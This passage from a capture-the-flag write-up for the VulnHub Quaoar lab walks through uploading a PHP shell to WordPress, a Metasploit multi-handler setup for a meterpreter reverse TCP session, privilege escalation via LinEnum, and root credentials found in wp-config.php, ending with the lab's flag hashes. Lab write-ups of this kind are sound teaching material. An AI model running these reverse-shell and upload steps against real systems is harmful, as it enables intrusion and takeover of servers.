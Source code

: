 ![alt text]({{ site.baseurl }}/assets/images/vulnhub-writeup-quaoar/7.png)

The upload fails but when looking in the Media tab we can see our payload and view it to obtain the full URL path to the shell.

![alt text]({{ site.baseurl }}/assets/images/vulnhub-writeup-quaoar/8.png)

Prepare and start the multi-handler

`use exploit/multi/handler` <br/>

`set payload php/meterpreter_reverse_tcp` <br/>

`set LHOST 192.168.0.122` <br/>

`set LPORT 6666` <br/>

`run` <br/>

now its time to trigger the payload and establish the session :D

http://192.168.0.122/wordpress/wp-content/uploads/2017/06/shell.php

visiting the page kicks things into action

![alt text]({{ site.baseurl }}/assets/images/vulnhub-writeup-quaoar/9.png)

:) half way there 

## Privilege Escalation

so now were on the server as www-data user. I uploaded Linenum to help me find a way to get root.

https://github.com/rebootuser/LinEnum

Going through the output I see the wordpress folder and noticed the **wp-config.php** file.

Upon closer inspection things were looking good. Looks like the root user password is stored in plain-text.

![alt text]({{ site.baseurl }}/assets/images/vulnhub-writeup-quaoar/10.png)
<br/>
root
rootpassword!
<br/>
could have maybe got bruteforcing SSH .... o well nearly there.

I jumped out of the shell session and tried the found creds to login as SSH.

![alt text]({{ site.baseurl }}/assets/images/vulnhub-writeup-quaoar/11.png)

got root 😎 😎 😎

now we can read the flag files.

![alt text]({{ site.baseurl }}/assets/images/vulnhub-writeup-quaoar/12.png)

2bafe61f03117ac66a73c3c514de796e

8e3f9ec016e3598c5eec11fd3d73f6fb

You can also read the flag just by connecting to SSH as wpadmin.
